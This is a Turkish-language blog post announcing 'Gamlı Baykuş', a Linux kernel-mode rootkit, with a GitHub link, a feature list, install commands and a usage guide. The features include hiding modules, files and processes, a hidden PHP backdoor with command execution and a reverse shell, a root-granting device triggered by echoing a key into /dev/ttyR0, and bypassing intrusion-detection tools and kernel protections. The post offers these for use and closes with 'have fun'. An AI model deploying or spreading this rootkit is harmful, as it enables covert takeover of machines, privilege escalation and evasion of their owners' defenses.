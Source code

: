 ```yaml
---
title: Gamlı Baykuş Kernel Mode Rootkit v 1.0
layout: post
tags: [Linux,Kernel]
author: 0x00fy
---
```


Boş zamanlarımda uğraştığım bir projeydi yeni tamamlayabildim, Örnek olması açısından sizlerle paylaşıyorum. Bu da Rootkit Development Serimizin  Başlangıç yazısı oluyor bir nevi ,
Bundan sonraki yazılarımızda bir Rootkit'in Ne işe yaradığı , neler yaptığı hakkında ufak bir bilgi vererek başlangıç yapacağız. O zamana kadar esen kalın, Serimizin bir sonraki yazısında görüşmek üzere..


### GAMLI BAYKUŞ KERNEL MODE ROOTKİT


**PROJE GITHUB LINKI : [https://github.com/0x00fy/Gamli-Baykus](https://github.com/0x00fy/Gamli-Baykus)**






![](https://raw.githubusercontent.com/0x00fy/Gamli-Baykus/main/autro.jpg)




**Kernel Mode Rootkit**

*Örnek Amaçlı Gliştirilmiş versiyondur, ilerleyen versiyonlarla daha farklı ve gelişmiş özellikler ile karşınızda olacak..*


**Test Edildiği Sistemler : Ubuntu 18.04 // CentOS 7.8.0**


### Özellikleri


**lsmod Üzerinde gözükmeyen LKM ler**

**Dosyalari gizleme**

**Klasörleri gizleme**

**Processleri gizleme**

**PHP arayuzu icin gizlenmis server portu**

**Farklı kullanıcıllardan root erişimi alabilmek için Bir device oluşturma.**

**HIDS Bypass (Agent Simth , Ossec , chrootkit , kstat , HiddenWall,lsrootkit)**

**Bypass Linux Kernel 3.15 x86 CR4 & CR0 pinning protections**

**Gizli PHP Arayuz (Porta Kurulu)**


### PHP Arayuz ozellikleri :

**Dosya sisteminde gozukmeme**

**Panel Anasayfa Guard (IP LOGGER)**

**CMD Komut calistirma**

**Bind Port Reverse Shell**


### Helper

```

sudo gamlibaykus --[PARAMETRE] [OPSIYON]


Gamli Baykus Kernel Mode Rootkit v1.0
[http://modebit0.info]

--file [Gizlenecek Dosya]
--process [Gizlenecek Process ID]
--rootdevice [Device Keyi]
--phpbackdoor [Port Number]

===[Kisa Opsiyonlar]===

-f [Dosya ismi]
-p [Process id]
-r [Devicekey]
-b [port number]

```

### Kurulum :

```
git clone https://github.com/0x00fy/Gamli-Baykus.git

cd Gamli-Baykus

chmod 777 *

sudo ./install.sh


```

### Kullanım Klavuzu ve Hatırlatmalar

Herşeyden önce kurulum yapıldıktan sonra --file parametresini kullanarak Tüm LKM lerin ve yardımcı araçların bulunduğu /var/baba klasörünü gizlemeyi unutmayın 

Gizlemek : sudo gamlibaykus -f /var/baba


Farklı kullanıcılardan Root Yetkisi almak için bir device oluşturduğunuzda Root yetkisine ulaşmak için `echo "GİRDİĞİNİZ DEVİCE KEYİ" > /dev/ttyR0 `

 Komutunu çalıştırmanız yeterli olacaktır..
 

Php backdoor arayüzü kurmak için sudo gamlibaykus -b [PORT NUMARASI] şeklinde çalıştırıp Arayüzü kurduktan sonra Terminalinize output olarak düşen Process ID sini gizlemeyi unutmayınız !


### İYİ EĞLENCELER !!
